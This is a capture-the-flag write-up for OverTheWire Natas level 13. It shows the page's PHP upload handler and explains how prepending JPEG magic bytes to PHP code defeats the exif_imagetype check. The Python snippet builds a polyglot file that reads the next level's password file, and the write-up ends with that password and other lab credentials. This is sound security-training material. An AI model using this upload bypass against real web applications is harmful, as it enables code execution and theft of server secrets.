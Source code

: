 # Level 13
## What does the page look like?
```html
$ curl -s --user natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY http://natas13.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>


<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="camtjmx5lt.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
## Source code
```html
$ curl -s --user natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY http://natas13.natas.labs.overthewire.org//index-source.html | html2text 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/
css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-
ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/
wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></
script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</
script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    
    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']
['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</
a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString
(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Vulnerability
This is the same kind of challenge as for the previous level, but this time, there is an additional control that will check the MIME type using the `exif_imagetype` function.

This additional control can be bypassed by creating a file that will contain both the `*.jpg` header (`\xFF\xD8\xFF\xE0`), and PHP code.

We will prepare a PHP file that will read the password file, and that we will be able to send to the server instead of the expected `*.jpg`:

## Exploitation
Let's first create our fake image:
```python
$ python2
>>> fh = open('hack.php', 'w')
>>> fh.write("\xFF\xD8\xFF\xE0" + "<?php echo file_get_contents('/etc/natas_webpass/natas14'); ?>")
>>> fh.close()
```
You can check that the `file` command identifies [`hack.php`](files/hack.php) as a picture:
~~~~
$ file hack.php 
hack.php: JPEG image data
~~~~
Because it contains the relevant header; however, our PHP code is there:
~~~~
$ xxd hack.php 
00000000: ffd8 ffe0 3c3f 7068 7020 6563 686f 2066  ....<?php echo f
00000010: 696c 655f 6765 745f 636f 6e74 656e 7473  ile_get_contents
00000020: 2827 2f65 7463 2f6e 6174 6173 5f77 6562  ('/etc/natas_web
00000030: 7061 7373 2f6e 6174 6173 3134 2729 3b20  pass/natas14'); 
00000040: 3f3e                                     ?>
~~~~

To exploit this vulnerability, open the developer toolbar, edit the code in the form and replace the value of `filename` by `hack.php`, and upload the script exactly as in the previous level.

# Flag
~~~~
natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
~~~~
